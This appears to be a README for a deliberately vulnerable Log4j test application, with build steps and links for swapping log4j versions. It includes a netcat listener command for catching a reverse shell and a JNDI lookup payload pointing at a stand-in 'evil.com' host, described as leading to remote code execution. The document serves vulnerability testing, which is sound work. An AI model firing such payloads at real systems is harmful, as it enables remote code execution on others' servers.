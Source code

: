 # Building and Testing

1. `docker build -t test-app .`
1. `docker-compose up test-app`
1. `nc -lvnp 9001`
1. Input malicious payload in `username` field on `localhost:8080`

Change `log4j-....2.xx.x.jar` to version that you want in order to change the versions of log4j.

Downloads are available at: 
1. https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.xx.x/log4j-api-2.xx.x.jar
1. https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.xx.x/log4j-core-2.xx.x.jar
1. https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-appserver/2.xx.x/log4j-appserver-2.xx.x.jar
1. https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-jul/2.xx.x/log4j-jul-2.xx.x.jar 

# Information

Image has been modified to use `ThreadContext`. The normal payload will still lead to RCE.  
When using the modified payload (`${jndi:ldap://localhost#evil.com:1389/a}`) does not work. Not sure why, but the videos I have seen are all using a non-locally hosted LDAP server.